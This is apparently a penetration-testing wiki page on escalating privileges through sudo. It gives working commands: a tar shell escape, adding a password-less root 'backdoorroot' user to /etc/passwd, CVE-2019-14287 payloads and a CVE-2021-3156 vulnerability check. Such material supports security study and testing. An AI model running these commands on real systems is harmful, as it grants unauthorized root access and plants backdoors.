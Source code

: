 # SUDO

## Theory

`sudo` (Super User DO) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user (by default, the superuser).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers ( 😯 _I know right, big brains here_  🧠 ). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 (read-only) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](../../../.gitbook/assets/sudoers\_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure configuration, or by exploiting the program's vulnerabilities.

### Default configurations

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following (default config for a new sudoer).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

### Living off the land

While the SUDO configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### CVE-2019-14287 (#-1)

With SUDO running version < 1.8.28, an attacker in control of a "runas ALL" sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID.&#x20;

Exploiting the bug requires sudo privileges and being able to run commands with an arbitrary user ID. This means the user's sudoers entry has to have the special value `ALL` in the "runas" specifier (the yellow and green parts in [the doodle above](sudo.md#theory)).

Vulnerable users can be found with the two commands below

```bash
grep -e '(\s*ALL\s*,\s*!root\s*)' /etc/sudoers
grep -e '(\s*ALL\s*,\s*\!#0\s*)' /etc/sudoers
```

The vulnerability can be exploited with one of the following payloads

```bash
sudo -u#-1 sh -p
sudo -u#4294967295 sh -p
sudo -u#$((0xffffffff)) sh -p
```

{% hint style="info" %}
**Some technical details to the vulnerability**

Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` (or its 32-bit unsigned equivalent `4294967295`), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.

Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.

More info can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)
{% endhint %}

### CVE-2021-3156 (Baron Samedit)

With SUDO running version < 1.9.5p2, a Heap-based Buffer Overflow allows for privilege escalation to root via `sudoedit -s` and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, the following command can be run as a non-root user.

```bash
sudoedit -s /
```

Patched versions will throw a `usage:` help message while vulnerable ones will throw the following `sudoedit:` error.

```
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

This vulnerability can be exploited with [this exploit](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156\_one\_shot), or [this one](https://github.com/worawit/CVE-2021-3156).

More info about this vulnerability can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) and [here](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit).

## Resources

{% embed url="https://gtfobins.github.io/#+sudo" %}

{% embed url="https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4" %}

{% embed url="https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit" %}

